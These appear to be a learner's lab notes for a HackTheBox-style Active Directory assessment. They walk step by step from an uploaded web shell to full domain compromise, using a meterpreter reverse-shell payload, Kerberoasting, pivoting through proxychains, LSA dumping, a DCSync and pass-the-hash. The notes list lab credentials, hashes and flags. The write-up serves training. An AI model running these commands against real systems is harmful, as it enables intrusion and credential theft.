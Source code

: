 

# AD Enum & Attacks - Assessment 1

## Given Info
A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.


## Steps

### Finding the Admin's Desktop Flag
- nmap scan just to check what ports are open on the host
- Look around the web server through the web shell in order t o find the admin desktop directory.


### Elevating Access to the Reverse Shell from the Web Shell
        
- Use msfconsole to create a custom payload
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.9 lport=4444 -f exe > shell.exe`
	- Using netcat will show the connection, but you can't interact with it, so we use metasploit for a better shell
	- use exploit/multi/handler in order to listen in
	- upload the exploit to the web shell, and run it


### Getting a User's Hash
        
- We don't have a password to the local host, so we have to get a password hash and crack it
- Transfer PowerView.ps1 to the target machine and import it into powershell
- get user svn for the sql user using the following:
	- `Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat | out-File .\\\\hash.txt`
- copy the hash and use hashcat to break it


### Getting into MS01
- Running `ipconfig` shows you a second network adapter, meaning we’ll need to pivot to the internal network        
- Go to the meterpreter shell, and run the following    
	- `run autoroute -s 172.16.6.0/24`
- Then run a tcp portscan on the internal network to find hosts. Focus on 139,445 (SMB)as they are common windows ports

```bash
bg
use auxiliary/scanner/portscan/tcp
set rhosts 172.16.6.0/24
set PORTS 139,445
set threads 50
run
```

- setup SOCKS proxy and run it `use auxilliary/server/socks_proxy`
- update `/etc/proxychains.conf` to include the socks5 proxy for the local machine
- Use proxychains to attack the internal network
- `sudo proxychains cme smb 172.16.6.50 -u svc_sql -p lucky7` where we use the creds we got from the kerberoasting hash
- Authenticate to the smb service
	- `sudo proxychains cme smb 172.16.6.50 -u svc_sql -p lucky7`
- Use CME again to find the file called flag.txt
	- `sudo proxychains cme smb 172.16.6.50 -u svc_sql -p lucky7 -x "type C:\\users\\administrator\\desktop\\flag.txt"`


### Dumping Passwords
- `proxychains crackmapexec smb 172.16.6.50 -u svc_sql -p lucky7 --lsa`


### Attack Vectors
        
- Use powerview to evaluate attack vectors

```powershell
PS C:\\> Import-Module .\\PowerView.ps1

Import-Module .\\PowerView.ps1
PS C:\\> $sid = Convert-NameToSid tpetty
$sid = Convert-NameToSid tpetty
PS C:\\> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607
ObjectAceType         : DS-Replication-Get-Changes-All
```


### Domain Takeover
        
- DCSync Attack:

```powershell
$ proxychains secretsdump.py INLANEFREIGHT/tpetty@172.16.6.3 -just-dc-user administrator

ProxyChains-3.1 (<http://proxychains.sf.net>)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:445-<><>-OK
[*] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:49667-<><>-OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:a76102a5617bffb1ea84ba0052767992823fd414697e81151f7de21bb41b1857
Administrator:aes128-cts-hmac-sha1-96:69e27df2550c5c270eca1d8ce5c46230
Administrator:des-cbc-md5:c2d9c892f2e6f2dc
[*] Cleaning up... 
```

            
- Use `wmiexec.py` as `administrator` and pass the hash `aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0` to be able to connect to DC01

```powershell
$ proxychains wmiexec.py administrator@172.16.6.3 -hashes aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0

ProxyChains-3.1 (<http://proxychains.sf.net>)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:49774-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\\>hostname
DC01

C:\\>type c:\\users\\administrator\\desktop\\flag.txt
r3plicat1on_m@st3r!
```




## Creds
        
1. user: svc_sql, pass: lucky7


## Flags
1. `JusT_g3tt1ng_st@rt3d!`
2. `spn$_r0ast1ng_on_@n_0p3n_f1re`
3. `tpetty:Sup3rS3cur3D0m@inU2eR`
4. `r3plicat1on_m@st3r!`



# AD Enum & Attacks - Assessment 2**


## Given
Our client Inlanefreight has contracted us again to perform a full-scope internal penetration test. The client is looking to find and remediate as many flaws as possible before going through a merger & acquisition process. The new CISO is particularly worried about more nuanced AD security flaws that may have gone unnoticed during previous penetration tests. The client is not concerned about stealth/evasive tactics and has also provided us with a Parrot Linux VM within the internal network to get the best possible coverage of all angles of the network and the Active Directory environment. Connect to the internal attack host via SSH (you can also connect to it using `xfreerdp` as shown in the beginning of this module) and begin looking for a foothold into the domain. Once you have a foothold, enumerate the domain and look for flaws that can be utilized to move laterally, escalate privileges, and achieve domain compromise.Apply what you learned in this module to compromise the domain and answer the questions below to complete part II of the skills assessment.
1. `SSH to with user "htb-student" and password "HTB_@cademy_stdnt!"`


## Steps
1. ssh into the machine
2. `ip a` to see if the machine is connected to any other networks: `ens224` is connected to an internal network `172.16.7.240/23`
3. Try using responder to harvest hashes


## Creds


## Flags
